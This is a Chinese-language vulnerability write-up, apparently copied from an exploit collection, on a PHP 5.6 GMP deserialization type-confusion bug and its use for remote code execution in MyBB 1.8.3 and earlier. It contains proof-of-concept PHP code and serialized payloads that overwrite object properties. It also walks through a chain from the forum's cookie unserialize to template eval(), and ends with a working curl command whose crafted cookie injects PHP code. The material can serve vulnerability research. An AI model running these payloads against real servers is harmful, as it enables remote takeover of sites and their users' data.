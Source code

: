 # MyBB<=1.8.3 RCE

> 原文：[http://book.iwonder.run/0day/MyBB/1.html](http://book.iwonder.run/0day/MyBB/1.html)

## 一、漏洞简介

在使用精心编制的对象的`__wakeup()`魔术方法进行 GMP 反序列化时发现了一个类型混淆漏洞，该漏洞可被滥用来更新分配给已创建对象的任何属性，进而触发严重的安全问题。

## 二、漏洞影响

PHP 5.6 < 5.6.30

MyBB<=1.8.3

## 三、复现过程

### 漏洞分析

gmp.c

```
static int gmp_unserialize(zval **object, zend_class_entry *ce, const unsigned char *buf, zend_uint buf_len, zend_unserialize_data *data TSRMLS_DC) /* {{{ */
{
    ...
    ALLOC_INIT_ZVAL(zv_ptr);
    if (!php_var_unserialize(&zv_ptr, &p, max, &unserialize_data TSRMLS_CC)
        || Z_TYPE_P(zv_ptr) != IS_ARRAY
    ) {
        zend_throw_exception(NULL, "Could not unserialize properties", 0 TSRMLS_CC);
        goto exit;
    }

    if (zend_hash_num_elements(Z_ARRVAL_P(zv_ptr)) != 0) {
        zend_hash_copy(
            zend_std_get_properties(*object TSRMLS_CC), Z_ARRVAL_P(zv_ptr),
            (copy_ctor_func_t) zval_add_ref, NULL, sizeof(zval *)
        );
    } 
```

zend_object_handlers.c

```
ZEND_API HashTable *zend_std_get_properties(zval *object TSRMLS_DC) /* {{{ */
{
    zend_object *zobj;
    zobj = Z_OBJ_P(object);
    if (!zobj->properties) {
        rebuild_object_properties(zobj);
    }
    return zobj->properties;
} 
```

攻击者可以将`**object`更改为整数类型或 bool 类型的 ZVAL，然后攻击者将能够通过`Z_OBJ_P`访问存储在对象库中的任何对象。这意味着攻击者将能够通过`zend_hash_copy()`更新对象中的任何属性。从而引发了一系列安全问题。

下面这段代码可以验证这个漏洞

```
<?php

class obj
{
    var $ryat;

    function __wakeup()
    {
        $this->ryat = 1;
    }
}

$obj = new stdClass;
$obj->aa = 1;
$obj->bb = 2;

$inner = 's:1:"1";a:3:{s:2:"aa";s:2:"hi";s:2:"bb";s:2:"hi";i:0;O:3:"obj":1:{s:4:"ryat";R:2;}}';
$exploit = 'a:1:{i:0;C:3:"GMP":'.strlen($inner).':{'.$inner.'}}';
$x = unserialize($exploit);
var_dump($obj);

?> 
```

预期结果:

```
object(stdClass)#1 (2) {
  ["aa"]=>
  int(1)
  ["bb"]=>
  int(2)
} 
```

实际结果:

```
object(stdClass)#1 (3) {
  ["aa"]=>
  string(2) "hi"
  ["bb"]=>
  string(2) "hi"
  [0]=>
  object(obj)#3 (1) {
    ["ryat"]=>
    &int(1)
  }
} 
```

### 漏洞利用

在`php 5.6<=5.6.11`中，DateInterval 的`__wakeup()`使用`convert_to_long()`句柄并重新分配其属性，因此攻击者可以通过 GMP 的`gmp_cast_object()`将 GMP 对象转换成任何整数类型的 ZVAL:

```
static int gmp_cast_object(zval *readobj, zval *writeobj, int type TSRMLS_DC) /* {{{ */
{
    mpz_ptr gmpnum;
    switch (type) {
    ...
    case IS_LONG:
        gmpnum = GET_GMP_FROM_ZVAL(readobj);
        INIT_PZVAL(writeobj);
        ZVAL_LONG(writeobj, mpz_get_si(gmpnum));
        return SUCCESS; 
```

漏洞利用代码

```
<?php

var_dump(unserialize('a:2:{i:0;C:3:"GMP":17:{s:4:"1234";a:0:{}}i:1;O:12:"DateInterval":1:{s:1:"y";R:2;}}'));

?> 
```

当然，也可以套用精心编制的`__wakeup()`

```
<?php

function __wakeup()
{
    $this->ryat = (int) $this->ryat;
}

?> 
```

#### MyBB <= 1.8.3

index.php

```
if(isset($mybb->cookies['mybb']['forumread']))
    {
        $forumsread = my_unserialize($mybb->cookies['mybb']['forumread']);
    } 
```

MyBB<=1.8.3 允许通过`unserialize()`反序列化 cookie，因此攻击者能够更新`$mybb`或其他对象的属性，从而很容易导致安全问题，例如：XSS、SQL 注入、RCE 等 好消息是该漏洞已经在新版本得到了修复

### PoC

MyBB <= 1.8.3 RCE 漏洞

index.php

```
eval('$index = "'.$templates->get('index').'";'); 
```

MyBB 在模板解析过程中始终使用 eval()函数。 inc/class_templates.php

```
class templates
{
    ...
    public $cache = array();
    ...
    function get($title, $eslashes=1, $htmlcomments=1)
    {
        global $db, $theme, $mybb;
        ...
        $template = $this->cache[$title];
        ...
        return $template;
    } 
```

如果我们可以控制`$cache`，我们就可以通过`eval()`函数注入 php 代码。 inc/init.php

```
$error_handler = new errorHandler();
...
$maintimer = new timer();
...
$mybb = new MyBB;
...
switch($config['database']['type'])
{
    case "sqlite":
        $db = new DB_SQLite;
        break;
    case "pgsql":
        $db = new DB_PgSQL;
        break;
    case "mysqli":
        $db = new DB_MySQLi;
        break;
    default:
        $db = new DB_MySQL;
}
...
$templates = new templates; 
```

`$templates`对象在`init.php`中实例化，并且在此之前实例化了四个对象。这意味着`$templates`对象的句柄被设置为 5 并存储到对象存储中，因此我们可以访问`$templates`对象并通过在 GMP 反序列化期间将 GMP 对象转换为整型 ZVAL(其值为 5)来更新`$cache`属性。这也表明我们可以通过 eval()函数注入 php 代码。

当 MyBB<=1.8.3 和 PHP5.6<=5.6.11 时，只需在命令行上使用 curl 即可触发 RCE：

```
curl --cookie 'mybb[forumread]=a:1:{i:0%3bC:3:"GMP":106:{s:1:"5"%3ba:2:{s:5:"cache"%3ba:1:{s:5:"index"%3bs:14:"{${phpinfo()}}"%3b}i:0%3bO:12:"DateInterval":1:{s:1:"y"%3bR:2%3b}}}}' http://0-sec.org/mybb/ 
```

